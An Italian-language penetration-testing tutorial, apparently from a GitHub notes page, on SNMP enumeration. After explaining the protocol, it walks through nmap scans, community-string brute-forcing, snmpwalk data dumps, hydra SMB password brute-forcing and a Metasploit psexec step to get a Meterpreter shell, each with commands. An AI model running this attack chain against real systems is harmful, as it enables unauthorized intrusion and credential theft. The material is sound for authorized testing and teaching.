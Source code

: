 # SNMP Enumeration

**SNMP (Simple Network Management Protocol)** è un protocollo di livello applicativo utilizzato per monitorare e gestire dispositivi di rete come router, switch, stampanti, server e altro. 
Permette agli amministratori di:
- interagire con i dispositivi,
- ricevere avvisi quando si verificano eventi rilevanti (trap),
- modificare parametri di configurazione,
- interrogare lo stato del sistema.

SNMP utilizza generalmente **UDP** per il trasporto e si basa su tre componenti principali:

- **SNMP Manager** → effettua richieste e riceve risposte dagli agent.
- **SNMP Agent** → è un software presente sui dispositivi che risponde alle richieste e invia trap (ovvero notifiche asincrone inviate quando accade un evento specifico, come il superamento di una soglia, la disconnessione di un'interfaccia, ecc.).
- **Management Information Base (MIB)** → struttura gerarchica dei dati disponibili tramite SNMP. Ogni voce della MIB ha un identificatore univoco, chiamato **OID (Object Identifier)**.

---

## Versioni di SNMP

- **SNMPv1** → la prima versione, usa **community string** come metodo di autenticazione. <br>
Le community string sono stringhe di testo in chiaro che fungono da password condivise tra manager e agent. <br>
Le più comuni sono `public` (solitamente per lettura) e `private` (per scrittura).
- **SNMPv2c** → introduce funzionalità migliorate (come i bulk transfer) ma mantiene lo stesso meccanismo di autenticazione di v1 (community string).
- **SNMPv3** → introduce **autenticazione basata su utente**, **integrità dei messaggi** e **crittografia**, rendendolo l'unica versione realmente sicura.

SNMP usa:
- **porta 161 UDP** per query (Get, GetNext, ecc.)
- **porta 162 UDP** per ricevere trap (notifiche SNMP).

---

## Fase 1 – Scansione del Servizio

Per verificare se SNMP è attivo:
```bash
nmap -sU -p161 <IP>
```

Per identificare le comunity strings:
```bash
nmap -sU -p161 --script snmp-brute <IP>
```
Il file di wordlist utilizzato da default è:
```
/usr/share/nmap/nselib/data/snmpcommunities.lst
```

---

## Fase 2 – Raccolta Informazioni con snmpwalk

Una volta trovata una community string valida, possiamo usarla per interrogare il dispositivo e raccogliere informazioni:

```bash
snmpwalk -v 1 -c <community_string> <IP>
```
- `-v 1` specifica la versione SNMP (in questo caso v 1) ottenuta tramite `nmap -sV`
- `-c` indica la community string da usare (es. `public`)

SNMPwalk esegue richieste **GET-NEXT** per recuperare interi blocchi di OID. Questo consente di:
- identificare nomi host, sistema operativo, interfacce di rete,
- estrarre tabella di routing, indirizzi IP, MIB di configurazione,
- ottenere informazioni sugli utenti e gruppi presenti,
- rilevare servizi attivi o applicazioni installate.

---

## Fase 3 – Raccolta Completa con Nmap

Per eseguire una scansione SNMP completa:
```bash
nmap -sU -p161 --script snmp-* <IP> > snmp_info
```
Questo comando userà tutti gli script NSE relativi a SNMP e salverà l'output nel file `snmp_info`. <br>
Visualizzando il contenuto del file, potremmo ottenere varie informazioni come tabelle di routing, interfacce di rete usate indirizzi IP e a volte anche dei nomi utenti. <br>

--- 

## Fase 4 - Bruteforce con hydra
Se dovessimo trovare dei nomi utenti, possiamo salvarli in un file per poteri utilizzare con hydra e scovare le relative password:
```bash
hydra -L utenti.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> smb
```

---

## Fase 5 - Accesso con PsExec di Metasploit
Dopo aver ottenuto le credenziali, é possibile usare psexec per poter ottenere una sessione meterpeter:
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUSER <username>
set SMBPASS <password>
exploit
```
cosí da ottenere una sessione meterpeter per poter interagire con il target. 

---
